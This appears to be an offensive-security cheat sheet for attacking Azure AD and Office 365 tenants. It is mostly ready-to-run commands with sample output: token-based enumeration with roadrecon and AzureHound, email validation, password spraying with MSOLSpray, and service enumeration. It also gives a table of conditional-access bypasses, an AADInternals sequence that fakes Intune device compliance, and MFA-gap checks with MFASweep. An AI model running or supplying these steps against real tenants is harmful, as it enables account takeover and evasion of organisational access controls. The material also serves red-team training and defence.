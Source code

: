 # Azure AD Enumerate

## Azure AD - Collectors

* roadrecon
    ```ps1
    roadrecon auth --access-token eyJ0eXA...
    roadrecon auth --prt-cookie <primary-refresh-token> -r msgraph -c "1950a258-227b-4e31-a9cf-717495945fc2"
    roadrecon gather
    ```
* AzureHound
    ```ps1
    ./azurehound --refresh-token <refresh-token> list --tenant "<target-tenant-id>" -o output.json
    ```


## Azure AD - User Enumeration

### Enumerate Tenant Informations

* Federation with Azure AD or O365
    ```powershell
    https://login.microsoftonline.com/getuserrealm.srf?login=<USER>@<DOMAIN>&xml=1
    https://login.microsoftonline.com/getuserrealm.srf?login=root@<TENANT NAME>.onmicrosoft.com&xml=1
    ```
* Get the Tenant ID
    ```powershell
    https://login.microsoftonline.com/<DOMAIN>/.well-known/openid-configuration
    https://login.microsoftonline.com/<TENANT NAME>.onmicrosoft.com/.well-known/openid-configuration
    ```


### Enumerate Email

> By default, O365 has a lockout policy of 10 tries, and it will lock out an account for one (1) minute.

* Validate email 
    ```powershell
    PS> C:\Python27\python.exe C:\Tools\o365creeper\o365creeper.py -f C:\Tools\emails.txt -o C:\Tools\validemails.txt
    admin@<TENANT NAME>.onmicrosoft.com   - VALID
    root@<TENANT NAME>.onmicrosoft.com    - INVALID
    test@<TENANT NAME>.onmicrosoft.com    - VALID
    contact@<TENANT NAME>.onmicrosoft.com - INVALID
    ```
* Extract email lists with a valid credentials : https://github.com/nyxgeek/o365recon


### Password Spraying

```powershell
PS> . C:\Tools\MSOLSpray\MSOLSpray.ps1
PS> Invoke-MSOLSpray -UserList C:\Tools\validemails.txt -Password <PASSWORD> -Verbose
```


## Azure Services Enumeration

### Enumerate Tenant Domains

Extract openly available information for the given tenant: [aadinternals.com/osint](https://aadinternals.com/osint/)

```ps1
Invoke-AADIntReconAsOutsider -Domain "company.com" | Format-Table
Invoke-AADIntReconAsOutsider -UserName "user@company.com" | Format-Table
```


### Enumerate Azure Subdomains

```powershell
PS> . C:\Tools\MicroBurst\Misc\InvokeEnumerateAzureSubDomains.ps1
PS> Invoke-EnumerateAzureSubDomains -Base <TENANT NAME> -Verbose
Subdomain Service
--------- -------
<TENANT NAME>.mail.protection.outlook.com Email
<TENANT NAME>.onmicrosoft.com Microsoft Hosted Domain
```

### Enumerate Services

* Using Az Powershell module
    ```powershell
    PS Az> Get-AzResource
    PS Az> Get-AzVM | fl
    PS Az> Get-AzWebApp | ?{$_.Kind -notmatch "functionapp"}
    PS Az> Get-AzFunctionApp
    PS Az> Get-AzStorageAccount | fl
    PS Az> Get-AzKeyVault
    PS Az> Get-AzRoleAssignment -SignInName test@<TENANT NAME>.onmicrosoft.com
    ```

* Using az cli
    ```powershell
    PS> az vm list
    PS> az vm list --query "[].[name]" -o table
    PS> az webapp list
    PS> az functionapp list --query "[].[name]" -o table
    PS> az storage account list
    PS> az keyvault list
    ```


## Conditional Access Policy

Conditional Access is used to restrict access to resources to compliant devices only.

* Enumerate Conditional Access Policies: `roadrecon plugin policies` (query the local database)

| CAP                       | Bypass  |
|---------------------------|---------|
| Location / IP ranges      | Corporate VPN, Guest Wifi |
| Platform requirement      | User-Agent switcher (Android, PS4, Linux, ...) |
| Protocol requirement      | Use another protocol (e.g for e-mail acccess:  POP, IMAP, SMTP) |
| Azure AD Joined Device    | Try to join a VM (Work Access)|
| Compliant Device (Intune) | Fake device compliance |
| Device requirement        | / |
| MFA                       | / |
| Legacy Protocols          | / |
| Domain Joined             | / |


Bypassing conditional access by faking device compliance

```powershell
# AAD Internals - Making your device compliant
# Get an access token for AAD join and save to cache
Get-AADIntAccessTokenForAADJoin -SaveToCache
# Join the device to Azure AD
Join-AADIntDeviceToAzureAD -DeviceName "SixByFour" -DeviceType "Commodore" -OSVersion "C64"
# Marking device compliant - option 1: Registering device to Intune
# Get an access token for Intune MDM and save to cache (prompts for credentials)
Get-AADIntAccessTokenForIntuneMDM -PfxFileName .\d03994c9-24f8-41ba-a156-1805998d6dc7.pfx -SaveToCache 
# Join the device to Intune
Join-AADIntDeviceToIntune -DeviceName "SixByFour"
# Start the call back
Start-AADIntDeviceIntuneCallback -PfxFileName .\d03994c9-24f8-41ba-a156-1805998d6dc7-MDM.pfx -DeviceName "SixByFour"
```


## Multi Factor Authentication

* [dafthack/MFASweep](https://github.com/dafthack/MFASweep) - A tool for checking if MFA is enabled on multiple Microsoft Services
```ps1
Import-Module .\MFASweep.ps1
Invoke-MFASweep -Username targetuser@targetdomain.com -Password Winter2020
Invoke-MFASweep -Username targetuser@targetdomain.com -Password Winter2020 -Recon -IncludeADFS
```


## References

* [Bypassing conditional access by faking device compliance - September 06, 2020 - @DrAzureAD](https://o365blog.com/post/mdm/)
* [CARTP-cheatsheet - Azure AD cheatsheet for the CARTP course](https://github.com/0xJs/CARTP-cheatsheet/blob/main/Authenticated-enumeration.md)